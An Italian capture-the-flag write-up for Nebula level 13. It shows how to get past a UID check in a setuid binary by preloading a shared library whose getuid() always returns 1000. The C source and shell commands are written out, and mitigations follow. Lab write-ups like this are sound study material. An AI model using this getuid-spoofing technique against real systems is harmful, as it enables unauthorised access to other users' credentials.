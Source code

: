 # Nebula_13 - Iniezione locale

## Obiettivi della sfida
1. Recuperare la password dell'utente **flag13** agirando il controllo di sicurezza del programma `/home/flag13/flag13`
2. Autenticarsi come **flag13**
3. Eseguire `bin/getflag`

## Strategia di attacco
L'amministratore non è intenzionato a fornire la password e romperla risulta troppo difficile quindi bisogna passare a strategie alternative. Controlliamo i permessi di `/home/flag13/flag13`,  veniamo a sapere che il binario flag13 è di proprietà dell'utente **flag13** ed è eseguibile dagli utenti del gruppo **level13** inoltre ha il bit SETUID alzato.

### Commento di level13_safe.c
Il programma controlla se l'UID è diverso da 1000 allora stampa un messaggio di errore, altrimenti crea il token di autenticazione per l'utente **flag13** e lo stampa.
Le variabili di ambiente sfruttabili per questo attacco sono **LD_PRELOAD** e **LD_LIBRARY_PATH** esse possono influenzare il comportamento del **linker**.  
Dal manuale di LD_PRELOAD scopriamo che esso contiene una lista di **librerie condivise** esse vengono linkate prima di tutte le altre durante l'esecuzione e vengono usate per ridefinire dinamicamente alcune funzioni senza dover ricompilare i sorgenti.

## Come sfruttare le vulnerabilità
Possiamo usare la variabile LD_PRELOAD per caricare una libreria che implementa la funzione del controllo degli accessi del programma `/home/flag13/flag13`. La libreria che scriveremo reimposta `getuid()` per superare il controllo degli accessi.

### Istruzioni da eseguire
1. Scrivere la libreria **getuid.c**
```c
#include <unistd.h>
#include <sys/types.h>

uid_t getuid(void){
    return 1000;
}
```
2. Generare la libreria condivisa con:
```bash
> gcc -shared -fPIC -o getuid.so getuid.c
```
3. Caricare la libreria
```bash
> LD_PRELOAD=./getuid.so
# esecuzione di flag13
/home/flag13/flag13
# fallimento
```
L'iniezione della libreria fallisce perchè il manuale di LD_PRELOAD ci dice che se l'eseguibile ha SETUID alzato allora lo deve tenere anche la libreria.  
Il SETUID della libreria non può essere modificato perchè non siamo root, ma possiamo abbassare il SETUID del binario facendone una copia.  
Quindi per vincere la sfida facciamo
```bash
> cp /home/flag13/flag13 /home/level13/flag13
> gcc -shared -fPIC -o getuid.so getuid.c
> LD_PRELOAD=./getuid.so /home/level13/flag13
> ./flag13
# stampa del token di autenticazione
# possiamo autenticarci come flag13 dato che abbiamo la password
> getflag
# sfida vinta
```

## Debolezze
1. Manipolando LD_PRELOAD riusciamo a sovrascrivere _getuid()_
2. by-pass tramite **spoofing**, l'attaccante può riprodurre il token di autenticazione di un altro utente.
## Mitigazione
1. Questa volta non possiamo semplicemente ripulire la variabile di ambiente perchè LD_PRELOAD agisce prima del caricamento del programma.
2. L'autenticazione si basa su un valore noto che è 1000, occorre utilizzare più fattori di autenticazione.

